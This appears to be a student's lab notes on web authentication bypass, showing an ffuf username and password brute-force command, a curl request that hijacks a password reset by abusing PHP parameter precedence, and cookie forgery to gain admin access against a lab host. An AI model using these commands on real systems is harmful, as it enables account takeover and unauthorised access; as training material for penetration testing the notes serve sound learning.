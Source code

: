 
- One of the key tasks of pentesting is bypassing or breaking website authentication methods.

**Username Enumeration**

- As per the name, this process involves creating a valid list of usernames built through collating website error messages.
- Ex: we enter the username `admin`, and we get an error `An account with this username already exists`.

![[Pasted image 20230224204306.png]]
- We can use the existence of this error message to produce a list of valid usernames already signed up on the system.

- Can use FFuF here, which uses a list of commonly used usernames to check for matches.

Check out the rest of the method here: [[FFuF]]

Once we got our username list that we made putting the usernames we got from FFuF, we can perform a brute force attack against the same login directory.

`ffuf -w <usernamelist.txt>:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.47.53/customers/login -fc 200`

When you run this, make sure you are in the same directory as <usernamelist.txt>

Here, the
	- `w1` keyword represents the list of valid usernames, which we have assigned to <usernamelist.txt>.
	- `w2` keyword represents the list of passwords we will try, which is assigned to **10-million-password-list-top-100.txt**.
	- `-fc` argument is used to check for HTTP status codes other than 200. Filters out HTTP status codes.

Result:
![[Pasted image 20230224205546.png]]

Now, we know that a valid username is **steve** (W1), while its corresponding password is **thunder** (W2).


***Abusing Logic Flaws***

- It is not uncommon for authentication processes to contain logic flaws.
	-  can exist in any area of website.

Ex:![[Pasted image 20230224210253.png]]

- This code checks to see whether the start of the path the client is visiting begins with /admin.
		- If so, the code checks to see whether the client is an admin.
		- If the page doesn't begin with /admin, the page is displayed to the client.

- This is php sample code, and its looking for an exact match on the string 'admin'. 
		- This means that there is a logic flaw because an unauthenticated user requesting the `/adMin` will not have their privileges checked- the page will be displayed to them, bypassing the authentication checks.


![[Pasted image 20230224214044.png]]
In the presented scenario, we are able to login to an IT Support page using an email robert@acmeitsupport.thm, and a username **robert**.

- The username is submitted in a POST field to the web server, and the email is sent in the query string request as a GET field.

GET:

![[Pasted image 20230224214301.png]]

POST:
![[Pasted image 20230224214315.png]]

This information was found out using the **Network Debugger Panel** (F12).

We can also illustrate this through the use of `curl`:

![[Pasted image 20230224214546.png]]

![[Pasted image 20230224214558.png]]


- If a PHP array variable such as `$_REQUEST` contains the data received from the query string and POST data of the resonding server, the application logic for the variable may favor POST data rather than the query string.
- AKA, POSTS (or alternations of data) will be prioritized.
		- In this case, we could add another parameter to the POST form, and then can control where the password reset email gets delivered.

Ex:

`curl 'http://10.10.47.53/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'`

![[Pasted image 20230224214959.png]]

As you can see here, the POST that is returned has redirected where the mail is sent to `attacker@hacker.com`, as we specified in the `-d` argument above.

- Of course, in a real example, we would make an account on the page, and input the email address we received as a result, such as ethereal@customer.acmeitsupport.thm

![[Pasted image 20230224220105.png]]
Ex:`'http://10.10.47.53/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=ethereal@customer.acmeitsupport.thm'`

Running this command will have a ticket created on our account with a link to log us in as Robert.

![[Pasted image 20230224215534.png]]

![[Pasted image 20230224215556.png]]

After following that link, we find ourselves on Roberts account, from where we are able to view their support tickets, and even reset their password.

![[Pasted image 20230224215835.png]]
![[Pasted image 20230224215848.png]]

Change Roberts password:

![[Pasted image 20230224220225.png]]

Thus, we have gotten full control of their account from incorrectly delegated PHP variables. 

***Messing Wit Da Cookies***

- Another way we can bypass traditional authentication mechanisms is to examine anad edit cookies set by the web server during the online session.
	- Can allow us access to another user's account, unauthenticated access, or elevated privileges.

- Sometimes, contents of cookies is in plaintext, which makes it obvious to see what certain parameters do.

Ex: `Set-Cookie: loggin_in=true; Max-Age=3600;Path=/`
`Set-Cookie: admin=false; Max-Age=3600; Path=/` 

The first cookie appears to control whether the user is currently logged in, while the second controls whether the user has admin privileges.


- In theory, if we are able to simply change the contents of cookies such as thesen and then make another login request we would be able to change our privileges.

**Scenario: Exploiting a page that does not properly encode cookies**

- Run recon curl: `curl http:10.10.47.53/cookie-test`
![[Pasted image 20230224222141.png]]

- Using **Inspector** also shows us the following information about the Cookie data that is sent simply upon us accessing the cookie-test webpage:
![[Pasted image 20230224222445.png]]

What if we were to change the cookie fields to something like:
	- `admin=true`
	-` logged_in=true`

Lets try this with curl:

`curl -H "Cookie: logged_in=true; admin=false" https://10.10.47.53/cookie-test`

![[Pasted image 20230224222641.png]]

Now we're getting somewhere.

Lets try forging the cookie to loggin as an admin:

`curl -H "Cookie: logged_in=true; admin=true" https://10.10.47.53/cookie-test`

![[Pasted image 20230224222832.png]]

Now we are logged in as an admin where we would presumably have access to sensitive information!

**Protecting Cookies**

- Cookie values are often times hashed, which in this case produces an irreversible representation of the original text.
![[Pasted image 20230224223012.png]]
Can still be cracked with something like https://crackstation.net/

- Cookie are also oftentimes encoded, using encodings such as base32 or base64.
	- In this case, the encoding is reversible, and we can easily obtain the original cookie value.

Ex: 
`Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/**`

Here, the encoded value translates to {"id":1,"admin":false}

Use https://gchq.github.io/CyberChef/ when dealing with encoding/decoding.